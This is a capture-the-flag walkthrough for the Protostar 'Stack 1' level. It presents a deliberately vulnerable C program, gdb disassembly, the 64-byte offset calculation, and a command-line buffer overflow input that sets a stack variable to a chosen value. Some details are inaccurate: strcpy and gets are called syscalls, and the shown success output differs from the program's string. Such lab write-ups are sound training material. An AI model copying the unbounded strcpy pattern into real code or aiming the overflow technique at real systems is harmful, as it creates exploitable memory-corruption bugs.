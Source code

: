 ```yaml
---
title: Stack 1
sidebar_position: 2
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.
> This level is at /opt/protostar/bin/stack1
> **Hints**
> - If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
> - Protostar is little endian

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
This program requires us to pass arguments, with `argv[0]` being the program name. If we don't provide an extra argument, we are asked to specify an argument.
The `strcpy` system call is used to read user input into the buffer. 

Let's look at it's manual page.
```c
char strcpy(char restrict dst, const char restrict src);
```
We can see that the characters are read from `argv[1]` and copied to the `buffer`.

It is better than the `gets` syscall but it still has it's own problems.
```
CAVEATS 

	The strings src and dst may not overlap.

    If the destination buffer is not large enough, the behavior is
	undefined.
```
So the `strcpy` syscall stores characters past the end of the buffer. This essentially breaks the limit set on the buffer which means we can input more than 64 bytes.

This is the vulnerability that we have to exploit.

But before that let's go through the rest of the code. 

There is an `if` statement which checks if the value of `modified` in not equal to `0x61626364`. If it is not equal to 0, it prints out a string `else` it prompts us to try again.
We have to overwrite the `modified` variable using a buffer overflow. For that we have have to know where the `modified` variable is located.

Let's disassemble the program in `gdb`.
```
(gdb) disassemble main
Dump of assembler code for function main:
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
```
The instruction at `main+67` sets up the check.
```
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
```
The value in `eax` is compared with `0x61626364` which in ASCII is `abcd`. This value is moved from `esp+0x5c`.

Next, we want to locate the buffer.
```
--snip--;
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
--snip--;
```
In 32-bit assembly the arguments for a `call` are stored onto the `stack`.

In our program the `gets` syscall takes the location of the buffer as argument. This buffer is located at `esp+0x1c`.

The distance between the location of the `modified` variable and the buffer is the following:
```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```
The variable is located right where the buffer ends.

Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `modified` variable. 
## Exploit
```
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcd
Try again, you got 0x64636261
```
The the last four characters are being stored in little endian. So `abcd` is being flipped to `dcba`.

In order to pass the check, we have to provide the the flipped string i.e. `dcba`.
```
$ ./stack1 $(python -c 'print "A"*64 + "dcba"')
you have changed the 'modified' variable
```
